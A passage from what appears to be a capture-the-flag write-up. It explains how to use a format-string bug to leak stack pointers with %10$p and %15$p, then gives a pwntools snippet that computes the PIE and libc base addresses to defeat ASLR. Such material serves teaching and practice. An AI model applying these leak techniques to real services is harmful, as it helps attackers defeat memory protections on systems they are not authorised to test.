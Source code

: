 ![second_breakpoint](images/second_breakpoint.png)

Since the top value of the stack would be printed with %6$p we can count how many steps we would have to go down the stack, to hit the two differnt pointers.

To hit `__libc_csu_init` we would need to go 4 values down from the top of the stack.

To hit `__libc_start_main+234` we would need to go 9 values down from the top of the stack

This means we can leak `__libc_csu_init` with `%10$p` (4+6=10) and leak `__libc_start_main+234` using `%15$p` (9+6=15)

![leak](images/leak.png)

Using pwntools we can now receive the leaks and calculate the base addresses of the binary itself along with the base address of libc, defeating PIE and ASLR.

The amount to subtract from the leak to get the base memory address of both leaks, is found by checking the distance between the leak and base address inside of gdb. The difference between these two will always be the same.

```python
#Function to get to the printf and send a format string
def send_format_string(fmt_string):
    io.recvuntil(b'2. Exit the loop\n')
    io.sendline(b'1')
    io.recvuntil(b'Please enter your input:\n')
    io.sendline(fmt_string)

send_format_string(b'%10$p %15$p') #Format string used to leak
leaks = io.recvline()[:-1].split(b' ') #cut off the newline at the end of the input and split it at the space

#Convert to integers
pieleak = int(leaks[0],16)
libcleak = int(leaks[1],16)

#Calculate base address
piebase = pieleak - 0x1260
libcbase = libcleak - 0x26d0a

log.info(f"PIE BASE: {hex(piebase)}")
log.info(f"LIBC BASE: {hex(libcbase)}")
```